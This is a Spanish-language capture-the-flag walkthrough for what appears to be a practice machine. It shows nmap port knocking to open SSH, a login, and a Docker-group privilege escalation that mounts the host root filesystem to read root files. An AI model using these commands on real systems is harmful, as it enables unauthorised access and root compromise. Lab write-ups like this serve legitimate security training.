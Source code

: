 Se puede ver que hay un usuario y una contraseña potencial en un TXT con una lista de puertos.
La idea aqui seria de hacer un **Port Knocking**


### Port Knocking {-}

En este caso la idea seria conectarse al puerto 22 (es una suposicion). El problema es que este puerto esta cerrado. 
La idea de la tecnica de **Port Knocking** es que si el atacante golpea unos puertos en un orden definido, por
iptables se puede exponer o bloquear un puerto.

```bash
nmap -p3456,8234,62431,22 --open -T5 -v -n 10.10.10.83 -r
```

> [!] NOTAS: El argumento `-r` es para decir a NMAP de scanear los puertos en este mismo orden

Lanzando el comando multiples veces, NMAP nos reporta ahora que el puerto 22 esta ya abierto.
Lo que se puede hacer es, de seguida despues del **Port Knocking** con nmap, lanzar un comando
ssh a la maquina.

```bash
nmap -p3456,8234,62431,22 --open -T5 -v -n 10.10.10.83 -r && ssh prometheus@10.10.10.83
```

Perfecto se nos pregunta por una contraseña **Y PA DENTRO**

En este momento ya se puede ver la flag `user.txt` y Podemos pasar a la fase de escalacion de privilegios.



## Escalacion de privilegios {-}

### Enumeracion del usuario en la maquina victima {-}

```bash
whoami
id
```

Ya es sufficiente aqui porque ya se puede ver quel usuario esta en el grupo Docker.

### Escalacion de privilegios con Docker {-}

1. Checkear las imagenes Docker existentes

    ```bash
    docker ps
    ```

1. Utilizar una imagen existente para crear un contenedor y **mountarle** la raiz del systema en el contenedor

    ```bash
    docker run --rm -it -v /:/mnt rodhes bash
    cd /mnt/root/
    cat root.txt
    ```
